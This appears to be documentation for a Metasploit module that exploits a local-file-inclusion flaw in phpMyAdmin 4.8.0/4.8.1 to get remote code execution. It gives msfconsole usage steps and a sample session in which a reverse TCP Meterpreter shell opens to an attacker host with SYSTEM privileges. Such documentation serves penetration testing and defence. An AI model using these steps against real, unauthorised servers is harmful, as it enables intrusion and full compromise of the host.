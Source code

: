 ## Description

phpMyAdmin v4.8.0 and v4.8.1 are vulnerable to local file inclusion, which can be exploited post-authentication to execute PHP code by application. The module has been tested with phpMyAdmin v4.8.1.

## Vulnerable Application

[phpMyAdmin v4.8.1](https://files.phpmyadmin.net/phpMyAdmin/4.8.1/phpMyAdmin-4.8.1-all-languages.zip) and v4.8.0

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/phpmyadmin_lfi_rce`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested on Windows 7 x64 using PHP 7.2.4 and phpMyAdmin 4.8.1

```
msf > use exploit/multi/http/phpmyadmin_lfi_rce
msf exploit(multi/http/phpmyadmin_lfi_rce) > set rhosts 172.22.222.122
rhosts => 172.22.222.122
msf exploit(multi/http/phpmyadmin_lfi_rce) > run

[*] Started reverse TCP handler on 172.22.222.190:4444
[*] Sending stage (37775 bytes) to 172.22.222.122
[*] Meterpreter session 1 opened (172.22.222.190:4444 -> 172.22.222.122:51999) at 2018-07-05 13:14:39 -0500

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    :
OS          : Windows NT 6.1 build 7601 (Windows 7 Professional Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >
```
